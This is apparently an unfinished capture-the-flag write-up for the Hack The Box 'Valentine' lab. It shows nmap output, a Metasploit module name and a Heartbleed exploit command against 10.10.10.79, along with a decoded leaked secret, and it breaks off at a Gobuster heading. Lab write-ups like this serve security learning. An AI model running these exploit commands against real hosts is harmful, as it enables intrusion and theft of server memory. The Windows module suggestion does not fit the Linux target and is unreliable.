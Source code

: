 ```bash
Nmap scan report for 10.10.10.79
Host is up (0.049s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Not valid before: 2018-02-06T00:45:25
|_Not valid after:  2019-02-06T00:45:25
|_ssl-date: 2020-12-31T16:25:03+00:00; +8m35s from scanner time.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: 8m34s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.68 seconds

```

This seems to have a DNS host called valentine.htb letsd add it to our /et/chosts file but it seems like the name suggests its heartbleed 

Seems like the HTTP version is also vulnerable to this Buffer Overflow Attack :

```bash
PHP apache_request_headers Function Buffer Overflow : use exploit/windows/http/php_apache_request_headers_bof
```

And then we use the heartbleed exploit 

```
python heartbleed.py -n 1000 10.10.10.79
```

grepping for text we can find 

```
aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
echo "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" | base64 -d
heartbleedbelievethehype
```

Gobuster Results :
